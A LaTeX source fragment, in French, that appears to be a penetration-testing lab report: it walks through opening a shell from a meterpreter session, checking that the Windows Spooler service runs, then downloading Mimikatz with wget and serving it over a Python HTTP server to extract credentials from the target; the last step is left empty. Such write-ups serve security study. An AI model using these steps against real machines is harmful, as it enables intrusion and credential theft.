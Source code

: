 \documentclass[a4paper,12pt]{report}
\begin{document}
\begin{enumerate}
\item \textbf{récupération du shell après connexion à la session meterpreter}

\begin{lstlisting}
 shell
\end{lstlisting}
\begin{figure}[H] 
      \label{mimikatz-1}
        \centering
          \texttt{[image: img/mimikatz/cve\_2021\_1.png]} 
        \caption{Obtention de la session meterpreter}
    \end{figure}


\item \textbf{Test vérification de la vulnérabilité}
Dans le shell windows, on vérifie que la vulnérabilité est bien présente c'est le cas e service Spooler est actif, il s'affiche comme \textbf{Running}.
\begin{lstlisting}
powershell_execute 'Get-Service -Name Spooler'
\end{lstlisting}

\begin{figure}[H] 
      \label{mimikatz-2}
        \centering
          \texttt{[image: img/mimikatz/cve\_2021\_2\_test.png]} 
        \caption{l'utilisateur attacker}
    \end{figure}

\item \textbf{Connexion RDP et exécution de commandes}
Maintenant que nous avons un accès SYSTEM et un PowerShell administrateur, nous téléchargeons, exécutons  et exploitons Mimikatz pour extraire les identifiants de connexion. L'attaquant télecharge et transfère sur la cible. 


\begin{lstlisting}
    wget https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip
python3 -m http.server 8080
\end{lstlisting}


\begin{figure}[H] 
      \label{mimikatz-3}
        \centering
          \texttt{[image: img/mimikatz/cve\_2021\_3\_telechargement\_payload\_kali.png]} 
        \caption{l'utilisateur attacker}
    \end{figure}

\item \textbf{Transfert et exécution de Mimikatz sur la cible}

\begin{lstlisting}
# Sur Kali



\end{lstlisting}
\end{enumerate}
\end{document}
